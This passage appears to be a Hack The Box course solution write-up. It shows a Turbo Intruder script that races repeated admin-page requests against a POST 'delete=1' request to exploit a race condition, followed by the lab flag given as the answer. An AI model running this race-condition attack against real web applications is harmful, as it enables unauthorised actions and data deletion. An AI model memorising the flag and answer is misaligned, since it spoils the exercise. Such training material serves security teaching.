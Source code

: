 ```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint='http://STMIP:STMPO',
                           concurrentConnections=30,
                           requestsPerConnection=10,
                           pipeline=False
                           )

    admin_req = '''GET /admin.php HTTP/1.1
Host: STMIP:STMPO
Cookie: PHPSESSID=<COOKIE>
Connection: close

'''

    delete_req = '''POST /manage.php HTTP/1.1
Host: STMIP:STMPO
Content-Length: 8
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=<COOKIE>
Connection: close

delete=1'''

    engine.queue(admin_req, gate='race1')
    engine.queue(admin_req, gate='race1')
    engine.queue(delete_req, gate='race1')
    engine.queue(admin_req, gate='race1')
    engine.queue(admin_req, gate='race1')

    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)
```

Students then need to start the attack and check the responses attained for the GET request to `/admin.php`. The exploit might not work the first time, therefore, students need to keep retrying the attack. Eventually, when the race condition is exploited, students will attain the flag `HTB{0f1479898ef23d1b6ab1e921ae4d5ca8}`:

![[HTB Solutions/CWEE/z. images/2106c1e912b50d968c06ee82f4fe2fbe_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/d143f83428ae40df5d3ae196ffa4c814_MD5.jpg]]

Answer: `HTB{0f1479898ef23d1b6ab1e921ae4d5ca8}`